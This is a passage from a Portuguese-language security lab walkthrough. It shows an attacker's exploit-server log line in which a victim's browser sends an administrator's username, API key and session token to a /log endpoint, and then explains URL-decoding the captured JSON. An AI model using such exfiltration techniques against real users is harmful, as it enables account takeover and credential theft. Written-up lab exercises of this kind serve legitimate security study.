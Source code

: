 > `"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%228v2Zeyxe7kB7J9KzHw5A7gzklQVsZa3y%22,%20%20%22sessions%22:%20[%20%20%20%20%225Mj3Voe4fvprJ6J28Liuu2BmWGmqUimG%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"`

<div class="page"/>

Porém, o resultado da requisição está codificado para ser usado em **URL's**, para decodificar, iremos utilizar o site [URL Decoder](https://www.urldecoder.org/).

![urldecode](basic_decode.png)

E como podemos ver, o resultado da requisição é o seguinte:

``` json

{
  "username": "administrator",
  "email": "",
  "apikey": "8v2Zeyxe7kB7J9KzHw5A7gzklQVsZa3y",
  "sessions": [
     "5Mj3Voe4fvprJ6J28Liuu2BmWGmqUimG"
  ]
}

```
